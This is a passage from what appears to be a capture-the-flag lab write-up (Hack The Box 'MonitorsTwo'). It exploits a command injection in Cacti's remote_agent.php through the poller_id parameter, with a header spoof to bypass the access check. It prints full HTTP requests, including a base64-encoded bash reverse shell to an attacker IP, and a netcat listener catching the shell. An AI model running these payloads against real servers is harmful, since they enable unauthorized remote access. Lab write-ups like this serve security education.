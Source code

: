 Among the various data sources, we will focus on the `Local Linux Machine - Uptime` entry with an ID of `6`. This choice is influenced by its association with the `Device - Uptime` template, which incorporates the crucial `POLLER_ACTION_SCRIPT_PHP` action, pivotal in initiating the `proc_open` call.

With all the necessary components in place, we proceed to construct our request.

```bash
GET /remote_agent.php?action=polldata&host_id=1&local_data_ids%5b%5d=6&poller_id=;sleep%20100 HTTP/1.1
Host: 10.10.11.211
X-Forwarded: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: Cacti=f755b3fc5f85ec444345b298ec66e223; CactiDateTime=Sun Aug 06 2023 08:52:48 GMT-0400 (Eastern Daylight Time); CactiTimeZone=-240
Upgrade-Insecure-Requests: 1

```

In the example, we've added some code like `sleep 100` into the `poller_id` part. When we send this request, the server waits for 100 seconds before responding, showing that we've successfully made the code run remotely.

# SHELL AS `www-data`

```bash
GET /remote_agent.php?action=polldata&host_id=1&local_data_ids%5b%5d=6&poller_id=;echo%20YmFzaCAtYyAiYmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC40NS80NDMgMD4mMSIK|base64%20-d|bash HTTP/1.1
Host: 10.10.11.211
X-Forwarded: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: Cacti=f755b3fc5f85ec444345b298ec66e223; CactiDateTime=Sun Aug 06 2023 08:52:48 GMT-0400 (Eastern Daylight Time); CactiTimeZone=-240
Upgrade-Insecure-Requests: 1

```

```bash
┌──(kali㉿kali)-[~/Documents/htb/monitorstwo]
└─$ echo 'bash -c "bash -i >& /dev/tcp/10.10.14.45/443 0>&1"' | base64
YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40NS80NDMgMD4mMSIK
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/Documents/htb/monitorstwo]
└─$ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.45] from (UNKNOWN) [10.10.11.211] 45346
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@50bca5e748b0:/var/www/html$ 
```
